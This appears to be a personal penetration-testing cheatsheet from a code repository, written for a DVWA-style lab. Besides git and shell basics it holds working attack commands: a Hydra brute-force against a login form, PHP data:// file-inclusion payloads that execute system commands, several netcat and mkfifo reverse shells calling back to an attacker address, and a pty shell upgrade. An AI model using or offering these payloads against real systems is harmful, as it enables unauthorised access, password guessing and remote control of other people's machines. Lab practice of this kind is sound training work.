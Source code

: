 # Cheatsheet 

## Sending And Receiving Files With Netcat

### Sending
`nc DESTINATIONSERVER PORT < FILENAME`

### Recieving
`nc -l -p PORT > FILE`


## Change The Time

`date -s "DD MMM YYYY HH:MM:SS"`


## GIT

```bash
git init in your desired directory
git add (your file)
git commit -m (your message)
git push
```

## Hydra Basic Stuff

```bash
hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```
-l indicates a single username (use -L for a username list)  
-P indicates use the following password list  
http-post-form indicates the type of form  
/dvwa/login-php is the login page URL  
username is the form field where the username is entered  
^USER^ tells Hydra to use the username or list in the field  
password is the form field where the password is entered (it may be passwd, pass, etc.)  
^PASS^ tells Hydra to use the password list supplied  
Login indicates to Hydra the login failed message  
Login failed is the login failure message that the form returned
-V is for verbose output showing every attempt

## PHP
http://10.0.2.100/vulnerabilities/fi/?COMMAND=ls&page=data://text/plain,%3C?php%20system($_GET[%27COMMAND%27]);%20?%3E


## NC Reverse Shell

### Terminal
`nc -lvvvnp 4444`

### Target
`nc <your IP> 4444 –e /bin/bash`

http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>

10.0.2.4:8380/index.php?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


rm /tmp/fifo.tmp; mkfifo /tmp/fifo.tmp; cat /tmp/fifo.tmp | sh -i 2>&1 | nc 10.0.2.15 1337 >/tmp/fifo.tmp


TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>&1 | nc ${TARGET} ${PORT} >${PIPE}

- Note 2 self: URL encode ampersand `&` naar `%26` ivm url betekenis!
http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


## BASH STUFFS  
`ls -all`
`find <desireddirectory> | grep <filename>`


## Propper shell  
`echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py`
`python3 /tmp/asdf.py`
